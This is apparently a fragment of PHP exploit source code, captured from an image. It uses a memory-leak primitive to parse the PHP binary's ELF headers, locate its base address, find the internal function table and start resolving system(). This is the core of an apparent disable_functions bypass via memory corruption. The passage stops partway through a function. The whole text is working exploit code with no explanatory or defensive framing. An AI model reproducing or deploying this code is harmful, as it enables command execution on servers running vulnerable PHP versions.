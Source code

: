 ```php
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
```
